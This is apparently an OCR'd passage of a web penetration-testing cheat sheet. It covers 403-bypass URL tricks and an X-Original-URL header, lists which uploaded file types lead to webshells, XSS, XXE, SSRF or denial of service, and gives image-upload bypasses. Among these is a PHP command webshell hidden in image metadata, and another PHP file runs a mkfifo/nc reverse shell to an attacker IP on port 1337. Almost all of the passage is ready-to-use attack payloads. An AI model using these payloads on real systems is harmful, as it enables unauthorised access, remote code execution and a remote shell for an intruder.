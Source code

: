 ```
http://target.com/admin => 403

----------------------------------------

http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```
### Add "..;/" after the directory name
```
http://target.com/admin

-----------------------------

http://target.com/admin..;/
```
### Try to uppercase the alphabet in the url
```
http://target.com/admin

----------------------------

http://target.com/aDmIN
```
### Via Web Cache Poisoning
```
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```

## File Upload

### What can you reach in case you uploaded?
```
ASP / ASPX / PHP5 / PHP / PHP3 --> WEBSHELL / RCE
SVG --> STORED XSS / SSRF / XXE
GIF --> STORED XSS / SSRF
CSV --> CSV INJECTION
XML --> XXE / STORED XSS / SSRF
AVI --> LFI / SSRF
HTML / JSON --> HTML INJECTION / XSS / OPEN REDIRECT
PNG / JPEG --> PIXEL FLOOD ATTACK (DOS)
ZIP --> RCE VIA LFI / DOS
PDF / PPTX --> SSRF / BLIND XXE/ STORED XSS
```
### Image Upload Bypass
```
- Change extension: .pHp3 or pHp3.jpg
- Modify mimetype: Content-type: image/jpeg
- Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
- Add gif header: 
    . GIF89a;

    . JFIF; <?php echo "<pre>"; system($_GET['cmd']); ?>

    . GIF89 <reverse_shell|shell>

    . echo '<?php' >> shell.php.png
      echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> shell.php.png
```